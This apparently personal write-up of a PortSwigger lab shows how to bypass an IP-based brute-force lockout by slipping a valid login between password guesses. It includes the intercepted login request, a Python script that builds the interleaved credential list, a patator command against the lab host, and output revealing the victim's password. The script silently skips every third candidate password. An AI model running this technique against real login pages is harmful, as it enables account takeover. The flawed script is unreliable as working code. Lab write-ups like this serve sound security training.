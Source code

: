 # Lab 4: Broken brute-force protection, IP block

## Description

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Solution

The challenge has a logic flaw in its password brute-force protection mechanism that makes it vulnerable to brute-forcing passwords. Given a valid set of credentials `wiener:peter`, determine the password to the account with the username `carlos`.

Navigate to the login page and intercept a login request using BurpSuite to understand its structure.

```http
POST /login HTTP/1.1
Host: ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net
Cookie: session=KtD0SoPOuQ3DMMXQuZo9OITnqqE8xdZV
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net
Dnt: 1
Referer: https://ac961f5f1e7ca5598048a6e500ea007d.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

The next step is to understand the password brute-force protection mechanism that is in play by answering the following questions:

- After how many failed login attempts does the brute-force protection mechanism kick in and block the IP address?
- Does the mechanism reset an IP address's count if it logs in successfully?
- How does the application determine which IP address to block? Does it go to the actual source IP address first or does it first check the `X-Forwarded-For` HTTP header?

### How Many Failed Logins until Lockout?

Using BurpSuite interceptor, attempt 20 iterative logins and determine after which attempt the IP address was blocked. Use the first 20 passwords from the word list, just in case one is correct.

After 3 failed login attempts, the web application began returning an error indicating too many requests have been made and to try again **in one minute**.

![Pasted image 20210807204402.png]


### Does a Successful Login Reset the Count?

Using BurpSuite interceptor, attempt 4 iterative logins. On the 3rd login attempt, use valid credentials. If the 4th request does not indicate IP address blocking, then a successful login does reset the count.

After executing the attack, the 4th request does not indicate IP address blocking.

![Pasted image 20210807205136.png]

This indicates that the web application resets an IP address's number of failed login attempts whenever it logs in successfully. By interspersing the credentials `wiener:peter` every two entries in the username:password dictionary, the brute-force protection mechanism can be bypassed.

Build the dictionary.

```python
valid_credentials = "wiener:peter"
username = "carlos"
with open("passwords.txt") as passwords:
    with open("credentials.txt", "w") as credentials:
        credentials.write(valid_credentials + "\n")
        for i, password in enumerate(passwords):
            if (i + 1) % 3 == 0:
                credentials.write(valid_credentials + "\n")
            else:
                credentials.write(f"{username}:{password}")
```

Based on successfully logging in with the credentials `wiener:peter`, the indicator of a successful login is a 302 code. The indicator of a failed login is a 200 code, so ignore those. Ensure the brute-force only happens in a single thread so the counter reset can happen properly.

```bash
$ patator http_fuzz url=https://ac3f1ffb1ef3088d80a304de007f005a.web-security-academy.net/login method=POST body='username=COMBO00&password=COMBO01' 0=credentials.txt -t 1 -x ignore:code=200

21:42:26 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-08-07 21:42 CDT
21:42:26 patator    INFO -                                                                              
21:42:26 patator    INFO - code size:clen       time | candidate                          |   num | mesg
21:42:26 patator    INFO - -----------------------------------------------------------------------------
21:42:27 patator    INFO - 302  170:0          0.131 | wiener:peter                       |     1 | HTTP/1.1 302 Found
21:42:29 patator    INFO - 302  170:0          0.121 | wiener:peter                       |     4 | HTTP/1.1 302 Found
21:42:30 patator    INFO - 302  170:0          0.126 | wiener:peter                       |     7 | HTTP/1.1 302 Found
21:42:32 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    10 | HTTP/1.1 302 Found
21:42:34 patator    INFO - 302  170:0          0.119 | wiener:peter                       |    13 | HTTP/1.1 302 Found
21:42:35 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    16 | HTTP/1.1 302 Found
21:42:37 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    19 | HTTP/1.1 302 Found
21:42:39 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    22 | HTTP/1.1 302 Found
21:42:40 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    25 | HTTP/1.1 302 Found
21:42:42 patator    INFO - 302  170:0          0.130 | wiener:peter                       |    28 | HTTP/1.1 302 Found
21:42:44 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    31 | HTTP/1.1 302 Found
21:42:45 patator    INFO - 302  170:0          0.131 | wiener:peter                       |    34 | HTTP/1.1 302 Found
21:42:47 patator    INFO - 302  170:0          0.133 | wiener:peter                       |    37 | HTTP/1.1 302 Found
21:42:48 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    40 | HTTP/1.1 302 Found
21:42:50 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    43 | HTTP/1.1 302 Found
21:42:52 patator    INFO - 302  170:0          0.130 | wiener:peter                       |    46 | HTTP/1.1 302 Found
21:42:53 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    49 | HTTP/1.1 302 Found
21:42:55 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    52 | HTTP/1.1 302 Found
21:42:57 patator    INFO - 302  170:0          0.122 | wiener:peter                       |    55 | HTTP/1.1 302 Found
21:42:58 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    58 | HTTP/1.1 302 Found
21:43:00 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    61 | HTTP/1.1 302 Found
21:43:01 patator    INFO - 302  170:0          0.126 | carlos:jessica                     |    62 | HTTP/1.1 302 Found
21:43:02 patator    INFO - 302  170:0          0.159 | wiener:peter                       |    64 | HTTP/1.1 302 Found
21:43:03 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    67 | HTTP/1.1 302 Found
21:43:05 patator    INFO - 302  170:0          0.131 | wiener:peter                       |    70 | HTTP/1.1 302 Found
21:43:07 patator    INFO - 302  170:0          0.132 | wiener:peter                       |    73 | HTTP/1.1 302 Found
21:43:09 patator    INFO - 302  170:0          0.124 | wiener:peter                       |    76 | HTTP/1.1 302 Found
21:43:11 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    79 | HTTP/1.1 302 Found
21:43:12 patator    INFO - 302  170:0          0.127 | wiener:peter                       |    82 | HTTP/1.1 302 Found
21:43:14 patator    INFO - 302  170:0          0.123 | wiener:peter                       |    85 | HTTP/1.1 302 Found
21:43:16 patator    INFO - 302  170:0          0.125 | wiener:peter                       |    88 | HTTP/1.1 302 Found
21:43:18 patator    INFO - 302  170:0          0.128 | wiener:peter                       |    91 | HTTP/1.1 302 Found
21:43:19 patator    INFO - 302  170:0          0.126 | wiener:peter                       |    94 | HTTP/1.1 302 Found
21:43:21 patator    INFO - 302  170:0          0.129 | wiener:peter                       |    97 | HTTP/1.1 302 Found
21:43:22 patator    INFO - 302  170:0          0.126 | wiener:peter                       |   100 | HTTP/1.1 302 Found
21:43:23 patator    INFO - Hits/Done/Skip/Fail/Size: 35/101/0/0/101, Avg: 1 r/s, Time: 0h 0m 57s
```

The only successful login with the username  `carlos` is the password `jessica`.
